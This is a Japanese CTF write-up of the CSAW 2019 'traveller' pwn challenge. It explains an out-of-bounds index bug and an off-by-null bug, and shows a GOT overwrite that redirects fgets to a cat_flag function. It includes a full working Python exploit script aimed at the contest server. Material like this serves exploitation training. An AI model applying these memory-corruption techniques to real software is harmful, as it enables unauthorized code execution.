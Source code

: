# [pwn 200pts] traveller - CSAW CTF Qualification 2019
64ビットバイナリで、PIEやRELROなどは無効です。
```
$ checksec -f traveller
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   92 Symbols     No       0               6       traveller
```
始めにargcのアドレスが渡されます。
その後add, change, deleteなどヒープ系っぽい処理があります。脆弱性自体は2つあり、1つはOOB、もう1つはoff-by-nullです。OOBでスタックのアドレスを参照すれば、そこを構造体として読むので、適当なアドレスとサイズがスタック上に存在すれば、そのアドレスにデータを書き込めます。したがって、スタック上に
```
addr+0x00: addr+delta
addr+0x08: size
```
のようにスタック上を指すアドレスがあれば、そこに新しい構造を書き込めるのでGOT overwriteに持ち込めます。なお、`cat_flag`関数があったので、適当な関数のGOTをこの関数アドレスで上書きしましょう。
```python
from ptrlib import *
import time

def change(index, data):
    sock.sendlineafter("> ", "2")
    sock.sendafter(": ", str(index))
    sock.send(data)
    return

def calc_offset(addr):
    assert addr % 8 == 0
    return 0x8000000000000000 | ((addr - elf.symbol("trips")) // 8)

elf = ELF("./traveller")
#sock = Process(["stdbuf", "-o0", "-i0", "./traveller"])
#sock = Socket("localhost", 9999)
sock = Socket("pwn.chal.csaw.io", 1003)

# leak stack address
sock.recvline()
sock.recvline()
addr_argc = int(sock.recvline(), 16)
logger.info("&argc = " + hex(addr_argc))

# prepare
delta = 124
change(calc_offset(addr_argc - delta), b'A' * 8 + p64(addr_argc + 36) + p64(elf.got("fgets") - 8) + p64(0x20))

# change
change(calc_offset(addr_argc + 28), b'A' * 8 + p64(elf.symbol("cat_flag")))

sock.interactive()
```

# 感想
まぁそんなに難しくないですね。
